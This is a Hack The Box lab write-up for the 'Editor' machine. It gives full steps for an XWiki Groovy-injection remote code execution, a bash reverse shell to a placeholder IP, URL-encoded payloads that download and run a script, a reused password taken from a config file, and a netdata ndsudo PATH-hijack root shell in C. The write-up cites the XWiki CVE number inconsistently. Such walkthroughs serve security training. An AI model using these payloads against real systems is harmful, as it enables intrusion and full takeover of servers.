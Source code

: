 # Editor

```
Difficulty: Easy
Operating System: Linux
Hints: True
```



#### 🏁 Summary of Attack Chain

```
| Step | User / Access | Technique Used | Result |
|:---|:---|:---|:---|
| 1 | (Local) | Nmap, /etc/hosts | Identified open ports and domain `editor.htb` |
| 2 | (Web) | XWiki Enumeration | Found XWiki version `15.10.8` and associated CVE-2025-24983 |
| 3 | xwiki | Groovy Script Injection (CVE-2025-24983) | Executed remote command to download and run a reverse shell script |
| 4 | xwiki | Shell Enumeration | Gained a shell as the `xwiki` user and identified user `oliver` |
| 5 | xwiki -> oliver | File Enumeration | Found `oliver`'s SSH password (`theXXXXXXXeam99`) in `/usr/lib/xwiki/WEB-INF/hibernate.cfg.xml` |
| 6 | oliver | SSH Login | Gained an SSH shell as `oliver` and retrieved `user.txt` |
| 7 | oliver | Port Enumeration | Used `ss -tulnp` to find `netdata` service listening on `127.0.0.1:19999` |
| 8 | oliver | SSH Local Port Forwarding | Forwarded port `19999` to `localhost` to access the `netdata` dashboard |
| 9 | oliver | Netdata Vulnerability (CVE-2024-32019) | Identified a local privilege escalation vulnerability in `netdata` version `1.45.2` |
| 10 | oliver -> root | Custom Executable & PATH Manipulation | Exploited `ndsudo` to run a malicious binary (`nvme`) with root privileges |
| 11 | root | Root Shell | Gained a `root` shell and retrieved `root.txt` |
```


#### Initial Enumeration
First, I performed an nmap scan and found several open ports. The most interesting finding was the domain editor.htb, which I added to my /etc/hosts file.

Bash

```
sudo nano /etc/hosts
<MACHINE_IP> editor.htb
```
Navigating to http://editor.htb in a browser revealed a code editor interface. Further enumeration showed a service running on port 8080, which turned out to be XWiki, an open-source wiki platform.


### Foothold and user.txt
The XWiki instance was running version 15.10.8. A quick search for this version, in combination with "XWiki", led me to a vulnerability with the CVE ID CVE-2025-24983.

I searched for an exploit for this CVE and found a helpful Python script on GitHub: https://github.com/a1baradi/Exploit/blob/main/CVE-2025-24893.py. This exploit allows for remote code execution via a Groovy script injection.

The exploitation process involved two main steps: uploading a reverse shell script and then executing it.

First, I created a simple reverse shell script named shell.sh:

Bash

```
cat shell.sh
#!/bin/bash
bash -i >& /dev/tcp/<YOUR_IP>/4444 0>&1
```

Next, I hosted this script on my local machine using a Python web server.

Bash

```
python -m http.server 80
```
![Python](Pictures/htb_Editor_Python_S.png)


From a browser, I used the following URL to upload the shell.sh script to the target machine's /tmp directory. I made sure to replace <YOUR_IP> with my IP address.

```
http://editor.htb:8080/xwiki/bin/view/Main/SolrSearch?media=rss&text=%7D%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7Dprintln("wget%20-qO%20/tmp/shell.sh%20http://<YOUR_IP>/shell.sh".execute().text)%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D
```

With the file uploaded, I set up a netcat listener on my machine.

Bash
```
nc -lnvp 4444 

##OR 

python3 penelope.py -i tun0 4444
```
Finally, I used a second browser tab with another URL to execute the uploaded script, which immediately gave me a reverse shell as the xwiki user.

```
http://editor.htb:8080/xwiki/bin/view/Main/SolrSearch?media=rss&text=%7D%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7Dprintln(%22bash%20/tmp/shell.sh%22.execute().text)%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D
```

Note: If the shell doesn't connect, it may be necessary to run the upload and execute commands again.

The shell connected, and I confirmed my user was xwiki. I then checked the /etc/passwd file and identified a user named oliver in the /home directory.

To escalate my privileges from xwiki to oliver, I began looking for credentials. I found a potentially useful configuration file at /usr/lib/xwiki/WEB-INF/hibernate.cfg.xml.

Bash

```
cat /usr/lib/xwiki/WEB-INF/hibernate.cfg.xml | grep password
```

The output contained several passwords, including theXXXXXXXXXX99. I attempted to use this password to log in via SSH as the user oliver, and it was successful.

![Rev](Pictures/htb_Editor_xwiki_RevShell_Password_leak.png)

Bash

```
ssh oliver@editor.htb
```

With the SSH shell, I was able to retrieve the user.txt flag.

### Privilege Escalation and root.txt

Once logged in as oliver, I checked for potential privilege escalation vectors. My first attempt was to check sudo permissions, but this was not fruitful.

Bash

```
oliver@editor:~$ sudo -l
[sudo] password for oliver: 
Sorry, user oliver may not run sudo on editor.
```

Next, I enumerated network sockets with ss -tulnp to identify any services running locally.

Bash

```
oliver@editor:~$ ss -tulnp
```

The output showed a service listening on port 19999 on the loopback address (127.0.0.1), which was identified as netdata.

To interact with this service, I used SSH local port forwarding to tunnel the port to my local machine.

Bash

```
ssh -L 19999:127.0.0.1:19999 oliver@editor.htb
```

![Script](Pictures/htb_Editor_SSH_PORTFAct.png)

By navigating to http://localhost:19999 in my browser, I could access the netdata dashboard. The dashboard indicated that the service was running version 1.45.2 and needed to be updated.

![Script](Pictures/htb_Editor_SSH_PORTF.png)

A quick search for netdata 1.45.2 revealed a local privilege escalation vulnerability, CVE-2024-32019. The vulnerability's Proof of Concept (PoC) involves using a specific ndsudo command to execute an arbitrary binary with root privileges.

The PoC steps are as follows:

Create a malicious executable with a name that ndsudo expects (e.g., nvme).

Place the executable in a writable path (e.g., /tmp).

Modify the PATH environment variable to include this path.

Run ndsudo with the designated command.

I created a C file named malicious.c that would spawn a root shell when executed.

C

```
// mal.c
#include <unistd.h>
#include <stdlib.h>
int main() {
  setuid(0);
  setgid(0);
  execl("/bin/bash", "bash", "-i", NULL);
  return 0;
}
```

![Script](Pictures/htb_Editor_CodeC.png)

I then compiled this file, naming the output nvme.

Bash

```
gcc -o nvme malicious.c
```

After compiling, I started a Python server on my local machine to host the nvme binary.

![Script](Pictures/htb_Editor_CodeCcompile.png)

Bash

```
python -m http.server 80
```

![Script](Pictures/htb_Editor_Python_S.png)

Finally, from my oliver shell, I downloaded the binary, made it executable, updated my PATH, and executed the vulnerable command to get a root shell.

Bash

```
cd /tmp
wget http://<YOUR_IP>/nvme
chmod +x nvme
export PATH=/tmp:$PATH
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
```
![Priviledge Esc](Pictures/htb_Editor_Priviledge_Esc.png)

### Root

![Root Flag](Pictures/htb_Editor_Root_Flag.png)

Executing the command immediately dropped me into a root shell, allowing me to retrieve the root.txt flag from the /root directory.


**Pwned! Editor**
